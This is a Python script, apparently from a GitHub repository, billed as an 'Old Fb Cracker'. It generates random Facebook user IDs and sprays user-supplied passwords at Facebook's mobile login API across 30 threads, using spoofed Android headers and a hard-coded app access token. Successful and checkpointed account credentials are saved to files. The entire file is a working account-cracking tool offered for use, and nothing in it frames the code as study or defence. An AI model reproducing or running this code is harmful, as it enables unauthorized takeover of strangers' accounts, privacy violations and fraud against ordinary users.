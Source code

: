 W = '\033[97;1m' 
R = '\033[91;1m' 
G = '\033[92;1m' 
Y = '\033[93;1m' 
B = '\033[94;1m'
P = '\033[95;1m'
C = '\033[96;1m'
N = '\x1b[0m'

                                                                                                   
                                                                                                   
                                                                                                   
                                                                                                   
                                                                                                   
                                                                                                   
uuuuuu    uuuuuu      ssssssssss      mmmmmmm    mmmmmmm     aaaaaaaaaaaaa  nnnn  nnnnnnnn         
u::::u    u::::u    ss::::::::::s   mm:::::::m  m:::::::mm   a::::::::::::a n:::nn::::::::nn       
u::::u    u::::u  ss:::::::::::::s m::::::::::mm::::::::::m  aaaaaaaaa:::::an::::::::::::::nn      
u::::u    u::::u  s::::::ssss:::::sm::::::::::::::::::::::m           a::::ann:::::::::::::::n     
u::::u    u::::u   s:::::s  ssssss m:::::mmm::::::mmm:::::m    aaaaaaa:::::a  n:::::nnnn:::::n     
u::::u    u::::u     s::::::s      m::::m   m::::m   m::::m  aa::::::::::::a  n::::n    n::::n     
u::::u    u::::u        s::::::s   m::::m   m::::m   m::::m a::::aaaa::::::a  n::::n    n::::n     
u:::::uuuu:::::u  ssssss   s:::::s m::::m   m::::m   m::::ma::::a    a:::::a  n::::n    n::::n     
u:::::::::::::::uus:::::ssss::::::sm::::m   m::::m   m::::ma::::a    a:::::a  n::::n    n::::n     
 u:::::::::::::::us::::::::::::::s m::::m   m::::m   m::::ma:::::aaaa::::::a  n::::n    n::::n     
  uu::::::::uu:::u s:::::::::::ss  m::::m   m::::m   m::::m a::::::::::aa:::a n::::n    n::::n     
    uuuuuuuu  uuuu  sssssssssss    mmmmmm   mmmmmm   mmmmmm  aaaaaaaaaa  aaaa nnnnnn    nnnnnn     
                                                                                                   
                                                                                                   
                                                                                                   
                                                                                                   
                                                                                                   
                                                                                                   
                                                                                                   
                                                                                                   
                                                                                                   
                                                                                                   
                                                                                                   
                                                                                                   
                                                                                                   
                                                                                                   
                                                                                                   
                                                                                                   
                                                                                                   
                                                                                                   
                                                                                                                                                     
                        
import os
try:
	import requests
except ImportError:
	os.system("pip install requests")

try:
	import concurrent.futures
except ImportError:
	os.system("pip install futures")

import os
import sys
import time
import requests
import random
import platform
import base64
import subprocess
from concurrent.futures import ThreadPoolExecutor


def runtxt(z):
    for e in z + "\n":
        sys.stdout.write(e)
        sys.stdout.flush()
        time.sleep(0.03)


plist = (platform.uname())[2]
basex = plist
basex1 = basex.encode('ascii')
basex2 = base64.b64encode(basex1)
basex3 = basex2.decode('ascii')
base4 = (basex3).upper()
basesplit = base4.replace('=', 'X').replace('A', '3').replace('B', '9').replace('C', '7').replace('D', '1').replace('E', '4').replace('M', '2').replace('L', '6').replace('F', '8').replace('N', 'E').replace('T', '8')


class Main:
	def __init__(self):
		self.id = []
		self.ok = []
		self.cp = []
		self.loop = 0
		os.system("clear")
		
		print ("""\033[1;92m 

\033[1;90m══════════════════════════════════════════════════
\033[1;91m [\033[1;94m✯\033[1;91m] \033[1;92mFACEBOOK : FAHIM HOSSEN
\033[1;91m [\033[1;94m✯\033[1;91m] \033[1;92mFB GROUP : UNKNOWN  
\033[1;91m [\033[1;94m✯\033[1;91m] \033[1;92mGITHUB   : FAHIM404-CYBER
\033[1;91m [\033[1;94m✯\033[1;91m] \033[1;92mWARNING  : BYPASS 
\033[1;90m══════════════════════════════════════════════════
    """)
		print("%s [%s•%s] %sTOOL NAME : %sOld Fb Cracker"%(G,R,G,B,G))
		print("%s [%s•%s] %sVERSION   : %s1.0"%(G,R,G,B,G))
		print("")
		print("\n    \033[0;92m            UID🔥 CLONING🔥 \033[0;97m ")
		print("%s [%s1%s]%s CRACK RANDOM FB ID 2008-11 {JUST NOW} %s(FREE)"%(G,R,G,Y,B))
		tanya = input("    \033[0;91m(#)\033[0;92m CHOOSE : ")
		if tanya in ["", " "]:
			Main()
		elif tanya in ["1", "01"]:
				    self.fbtua()
		
	def fbtua(self):
		x = 111111111
		xx = 999999999
		idx = "100000" 
		limit = int(input("    \033[0;91m[+]\033[0;92m TOTAL IDS TO CRACK (LIMIT 50000): "))
		try:
			for n in range(limit):
				_ = random.randint(x,xx)
				__ = idx
				self.id.append(__+str(_))
			print("\033[0;93m [+] TOTAL ID -> \033[0;91m%s\033[0;97m"%(len(self.id))) 
			with ThreadPoolExecutor(max_workers=30) as coeg:
				print("\n%s [!] USE %s, %s(COMMA)%s FOR SEPARATOR "%(Y,G,B,Y))
				print("%s EXAMPLE : %s123456,1234567,123456789"%(Y,G))
				listpass = input("%s [?] ENTER PASSWORD :%s "%(Y,G))
				if len(listpass)<=5:
					exit("\n%s [!] PASSWORD MINIMUM 6 CHARACTERS"%(R))
				print("%s [*] CRACK WITH PASSWORD -> [\033[0;91m%s\033[0;93m]"%(Y,listpass))
				print("\n%s [+] OK RESULTS SAVED IN -> ok.txt"%(G))
				print("%s [+] CP RESULTS SAVED IN -> cp.txt"%(Y))
				print("%s [!] IF NO RESULT TURN ON AIRPLANE MODE 5 SECONDS\x1b[0m\n"%(R))
				for user in self.id:
					coeg.submit(self.api, user, listpass.split(","))
			exit("\n\n    [#] CRACK COMPLETE...")
		except Exception as e:exit(str(e))

	def api(self, uid, pwx):
		ua = random.choice([
			"Dalvik/1.6.0 (Linux; U; Android 4.4.2; NX55 Build/KOT5506) [FBAN/FB4A;FBAV/106.0.0.26.68;FBBV/45904160;FBDM/{density=3.0,width=1080,height=1920};FBLC/it_IT;FBRV/45904160;FBCR/PosteMobile;FBMF/asus;FBBD/asus;FBPN/com.facebook.katana;FBDV/ASUS_Z007;FBSV/5.0;FBOP/1;FBCA/x86:armeabi-v7a;]", 
			"Mozilla/5.0 (Linux; Android 10; Mi 9T Pro Build/QKQ1.190825.002; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/88.0.4324.181 Mobile Safari/537.36[FBAN/EMA;FBLC/it_IT;FBAV/239.0.0.10.109;]"
		])
		sys.stdout.write(
			"\r\r %s[>_] [BY] : %s/%s -> \033[0;92m [ BY-OK:%s ]- \033[0;91m[BY-CP:%s ]"%(B,self.loop, len(self.id), len(self.ok), len(self.cp))
		); sys.stdout.flush()
		for pw in pwx:
			pw = pw.lower()
			ses = requests.Session()
			headers = {
				"x-fb-connection-bandwidth": str(random.randint(20000000.0, 30000000.0)), 
				"x-fb-sim-hni": str(random.randint(20000, 40000)), 
				"x-fb-net-hni": str(random.randint(20000, 40000)), 
				"x-fb-connection-quality": "EXCELLENT",
				"x-fb-connection-type": "cell.CTRadioAccessTechnologyHSDPA",
				"user-agent": ua, 
				"content-type": "application/x-www-form-urlencoded", 
				"x-fb-http-engine": "Liger"
			}
			response = ses.get("https://b-api.facebook.com/method/auth.login?format=json&email="+str(uid)+"&password="+str(pw)+"&credentials_type=device_based_login_password&generate_session_cookies=1&error_detail_type=button_with_disabled&source=device_based_login&meta_inf_fbmeta=%20&currently_logged_in_userid=0&method=GET&locale=en_US&client_country_code=US&fb_api_caller_class=com.facebook.fos.headersv2.fb4aorca.HeadersV2ConfigFetchRequestHandler&access_token=350685531728|62f8ce9f74b12f84c123cc23437a4a32&fb_api_req_friendly_name=authenticate&cpl=true", headers=headers) 
			if "session_key" in response.text and "EAAA" in response.text:
				print("\r  \033[0;92m   [BY-OK] %s | %s\033[0;97m         "%(uid, pw))
				self.ok.append("%s|%s"%(uid, pw))
				open("ok.txt","a").write("  * --> %s|%s\n"%(uid, pw))
				break
			elif "www.facebook.com" in response.json()["error_msg"]:
				print("\r  \033[0;91m   [BY-CP] %s | %s\033[0;97m         "%(uid, pw))
				self.cp.append("%s|%s"%(uid, pw))
				open("cp.txt","a").write("  * --> %s|%s\n"%(uid, pw))
				break
			else:
				continue

		self.loop +=1

if len(sys.argv) == 2:
	if sys.argv[1] == "--info":
		print("   ___________________        \n  /  _____/\_   _____/        \n /   \  ___ |    __)          \n \    \_\  \|     \ \033[0;96mGALAXY\033[0;97m        \n  \______  /\___  /__\033[0;96mFACEBOOK\033[0;97m_\n         \/     \/_____/_____/")
		print("\n [*] Author    : Md Usman king")
		print(" [*] Team      :  \n")
		print(" [ Sosial Medi  ] \n")
		print(" [*] Facebook  : https://www.facebook.com/profile.php?id=100055968853259")
		print(" [*] Instagram : nai ")
		print(" [*] YouTube   : ")
		exit(" [*] GitHub    : ")
	else:
		Main()

try:Main()
except Exception as e:exit(str(e))
